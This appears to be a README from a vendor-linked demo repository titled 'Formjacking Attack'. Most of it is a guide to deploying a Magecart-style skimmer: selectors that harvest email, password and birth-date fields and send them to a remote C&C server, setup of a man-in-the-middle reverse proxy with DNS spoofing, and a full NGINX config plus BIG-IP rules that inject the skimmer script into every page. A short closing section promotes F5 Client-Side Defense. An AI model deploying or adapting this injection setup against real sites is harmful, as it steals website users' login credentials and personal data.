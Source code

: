 Formjacking Attack
##############################################################

.. image:: ./_pictures/UFO_mamy.png
   :align: center
   :width: 800
   :alt: All layers

.. contents:: Contents
    :local:

Introduction
*****************************************

This blog provides a formjacking code in order to understand how it works.

F5 customers are protected from magecart style attack by `F5 Client-Side Defense <https://www.f5.com/cloud/products/client-side-defense>`_:

    - **Analyse** the behavior of all Javascripts executed on your website
    - **Alert** your Cyber-SOC team if a javascript behaves like a malware and take action immediately (allow/block)
    - **Block** malicious Javascript execution

Thanks to `unit42 <https://unit42.paloaltonetworks.com/>`_ that did a great blog `here <https://unit42.paloaltonetworks.com/anatomy-of-formjacking-attacks/>`_ on this topic.

Configuration guide
*****************************************
- Open the web page with targeted form
- Inspect ``input`` elements to grab user data. Each element can be identified by an ``id``, a ``name``, a ``type``, etc...

.. code-block:: html

    <input ... id="login-credentials-form-password" name="password-uuid" type="password" ...>

- Open the file `skimmer.js <https://github.com/nergalex/f5-magecart/blob/master/skimmer.js>`_
- Update the first 2 or 3 lines describing ``input`` elements to grab user data. See `examples </example>`_

.. code-block:: javascript

    window["data_leak_label_email"] = ["input[id*='login-credentials-form-email']", "input[name*='email']", "input[type*='email']"]
    window["data_leak_label_password"] = ["input[id*='login-credentials-form-password']", "input[name*='password']"]
    window["data_leak_label_birth_date"] = ["input[id*='login-credentials-form-birthdate']", "input[name*='birthDate']"]

- Go back to the web page, inspect ``button`` elements when the user submit the form

.. code-block:: html

    <button ... type="submit" id="login-button">

- In `skimmer.js <https://github.com/nergalex/f5-magecart/blob/master/skimmer.js>`_, the
- The fourth line describes ``button`` element to watch in order to send data to remote C&C server.
.. code-block:: javascript

    window["data_leak_label_submit_button"] = ["button[id*='login-button']"]

- If the form contains more or less input fields, update ``function listener_fetch_data_leak()`` in order to have exactly all required ``input`` elements defined previously

.. code-block:: javascript

    data_leak = {
        "email": get_element_value(window["data_leak_label_email"]),
        "password": get_element_value(window["data_leak_label_password"]),
        "birth_date": get_element_value(window["data_leak_label_birth_date"]),
        "uagent": navigator.userAgent
    }

Deployment guide
*****************************************

C&C server
=========================================
- Run C&C server as described `here <https://github.com/nergalex/c2-server>`_

Man In the Middle
=========================================
- Run a Reverse-Proxy that acts as a Man-In-The-Middle: forward all traffic to ORIGIN servers
- If DNS domain is spoofed, rewrite SNI and headers (HOST, ORIGIN and eventually others required by the App)
- Inject malware JS `skimmer.js <https://github.com/nergalex/f5-magecart/blob/master/skimmer.js>`_ in all or specific pages

**NGINX**
    See below the NGINX+ configuration for Juiceshop Single Page Application:

.. code-block:: nginx

    user  nginx;
    worker_processes  auto;
    error_log  /var/log/nginx/error.log info;
    pid        /var/run/nginx.pid;

    events {
        worker_connections 4096;
    }

    http {
        log_format main '$remote_addr - $remote_user [$time_local] "$request" $status '
                            '$body_bytes_sent "$http_referer" "$http_user_agent" "$http_x_forwarded_for" '
                            '$request_time "$upstream_connect_time" "$upstream_response_time" ';

        access_log /var/log/nginx/access.log main;

        client_max_body_size 1000M;
        server {
            listen       80  default_server;
            resolver 100.127.192.10; # For DNS lookup of $host;
            location = / {
                ### Insert malicious JS link in main page
                gzip on;
                proxy_set_header Accept-Encoding "";
                sub_filter "<head>" "<head><script async defer src='https://$host/demo/skimmer.js'></script> ";
                proxy_set_header Host $host;
                proxy_pass http://$host;
            }
            location = /demo/skimmer.js {
                # Proxy GET of malicious JS to remote repo
                proxy_pass https://raw.githubusercontent.com/nergalex/f5-magecart/master/example/skimmer_juiceshop.js;
                proxy_hide_header Content-Type;
                add_header Content-Type "application/javascript";
            }
            location / {
                # Other traffic forwarded to origin server
                proxy_set_header Host $host;
                proxy_pass http://$host;
            }
        }
    }

**BIG-IP UI configuration for JS insertion:**

    Local Traffic  ››  Profiles : Content : HTML : Rules /Common/form_grabber
    +-- Match settings ››  Match Tag Name: head
    +-- Action settings ››  HTML to Append: copy paste content of `skimmer.js <https://github.com/nergalex/f5-magecart/blob/master/skimmer.js>`_ surrounded by <script>...</script>

    Local Traffic  ››  Profiles : Content : HTML : /Common/html-demo
    +-- HTML rules: form_grabber

    Local Traffic  ››  Virtual Servers ››  vs-demo
    +-- HTML Profile: html-demo

**BIG-IP UI configuration for JS redirection:**

    Local Traffic  ››  Profiles : Content : HTML : Rules /Common/form_grabber
    +-- Match settings ››  Match Tag Name: head
    +-- Action settings ››  HTML to Append: <script src="/magecart.js"></script>

    Local Traffic  ››  Profiles : Content : HTML : /Common/html-demo
    +-- HTML rules: form_grabber

    Local Traffic  ››  Virtual Servers ››  vs-demo
    +-- HTML Profile: html-demo

    Local Traffic  ››  Policies : Policy csd-magecart (see tmsh config below)

    Local Traffic  ››  Virtual Servers ››  vs-demo
    +-- HTML Profile: html-demo
    +-- ltm policy: csd-magecart

.. code-block:: tcl

    ltm policy csd-magecart {
        rules {
            redirect-to-magecart-js {
                actions {
                    0 {
                        http-uri
                        replace
                        path /nergalex/f5-magecart/master/example/skimmer_website12.js
                    }
                    1 {
                        http-host
                        replace
                        value raw.githubusercontent.com
                    }
                    2 {
                        forward
                        select
                        pool raw.githubusercontent.com
                    }
                    3 {
                        http-header
                        response
                        replace
                        name Content-Type
                        value "application/javascript; charset=UTF-8"
                    }
                }
                conditions {
                    0 {
                        http-host
                        host
                        values { demo.com }
                    }
                    1 {
                        http-uri
                        path
                        values { /magecart.js }
                    }
                }
            }
            default {
                actions {
                    0 {
                        forward
                        select
                        pool demo.com
                    }
                }
                conditions {
                    0 {
                        http-host
                        host
                        values { demo.com }
                    }
                }
                ordinal 1
            }
        }
        strategy first-match
    }

- Enable compression on client-side / downstream-side if ORIGIN servers use compression

Mitigation guide
*****************************************
- Connect to F5 Distributed Cloud
- Get your Client Side Defense JS (CSD)
- Inject CSD JS as well in the web page to protect

BIG-IP UI configuration for JS insertion:

    Local Traffic  ››  Profiles : Content : HTML : Rules /Common/f5_csd
    +-- Match settings ››  Match Tag Name: head
    +-- Action settings ››  HTML to Append: copy paste F5 CSD JS link

    Local Traffic  ››  Profiles : Content : HTML : /Common/html-demo
    +-- HTML rules: form_grabber + f5_csd


